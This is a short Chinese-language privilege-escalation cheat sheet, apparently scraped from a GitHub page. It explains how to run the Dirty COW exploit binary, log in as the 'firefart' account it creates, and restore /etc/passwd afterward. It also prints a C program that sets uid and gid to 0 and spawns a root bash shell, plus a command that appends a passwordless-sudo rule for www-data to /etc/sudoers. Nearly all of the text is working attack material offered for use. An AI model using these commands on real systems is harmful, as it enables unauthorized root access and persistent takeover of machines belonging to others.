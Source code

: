 
然后通过以下方式运行新创建的二进制文件：

```
./dirty
```


或者

```
 ./dirty my-new-password
```

之后，您可以su firefart或ssh firefart@...
运行漏洞利用程序后，不要忘记恢复 /etc/passwd！

```
mv /tmp/passwd.bak /etc/passwd
```



# 提权代码

```c
#include<unistd.h>
#include<stdio.h>
#include<stdlib.h>
int main()
{
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```

```
将用户权限写进/etc/sudoers
echo "echo 'www-data ALL=(ALL) NOPASSWD:ALL >>/etc/sudoers' " >update
```

